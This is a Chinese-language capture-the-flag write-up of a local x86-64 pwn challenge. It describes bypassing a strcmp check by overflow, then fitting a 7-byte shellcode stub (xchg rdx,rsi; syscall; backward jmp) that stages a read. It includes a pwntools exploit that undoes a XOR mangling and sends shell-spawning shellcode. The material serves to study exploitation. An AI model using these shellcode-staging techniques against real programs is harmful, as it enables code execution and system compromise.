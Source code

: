 ​	最喜欢的一集。分析程序发现**用溢出绕过`strcmp(...)`检查**后只有 2 字节（点题）shellcode 可用，另有 5 字节空间。枚举机器码发现 `syscall` 正好两字节（`\x0f\x05`），而且当前寄存器布局因为先前的`mmap(...)`调用和 `mov eax, 0` ，很适合`read`系统调用，但是差一点，需要交换 `rdx` 与 `rsi` 位置。折腾很久后发现可以先 **`jmp 0xfffffffffffffffb`（`\xeb\xf9`）至 `passwd` 开头处（-5）**，从而执行更多指令：`xchg rdx, rsi`（`\x48\x87\xf2`）+ `syscall`。（加上 `jmp` 竟然正好 7 字节😧）最后写入真正的 shellcode 即可。另外编写 Python 脚本绕过异或混淆。

Exp：

```python
from pwn import *

context.terminal = ['konsole', '-e']
context(os='linux', bits=64, arch='amd64')

binary = './pwn'
p = process(binary)
elf = ELF(binary)

b'\x48\x87\xf2\x0f\x05\xeb\xf9'
def crack(sh: bytes):
    res: bytes = sh[:2]
    for i in range(5):
        for c in range(256):
            if sh[i + 2] == sh[i] ^ sh[i + 1] ^ c:
                res += c.to_bytes()
                break
    return res

def mangle(sh: bytes):
    for i in range(0, 5):
        sh = sh[:i + 2] + (sh[i] ^ sh[i + 1] ^ sh[i + 2]).to_bytes() + sh[i + 3:]
    return sh

def tryit(code: str):
    b = asm(code)
    b = b[0:2] + b'\0' + b[3:]
    print(disasm(b))

payload = b'H\x87=z\xf8\xe1\x17'
payload = payload + b'\0' + payload

p.send(payload)
p.send(asm(shellcraft.sh()))
p.interactive()
```
